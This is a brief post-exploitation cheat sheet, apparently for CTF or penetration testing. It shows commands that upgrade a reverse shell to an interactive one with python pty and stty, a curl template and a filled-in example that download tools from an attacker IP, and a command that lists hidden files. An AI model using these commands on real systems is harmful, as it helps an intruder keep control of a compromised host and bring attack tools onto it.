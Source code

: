 
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg
reset.

export TERM=xterm

```


Make a list of commands to download payloads from the server 

```
curl <attacker_IP>/<tool_name> -o <out_name>
```

```
curl 10.50.88.33/nmap -o nmap_sar
```


To see hidden files 
```
cd / && ls -lah
```

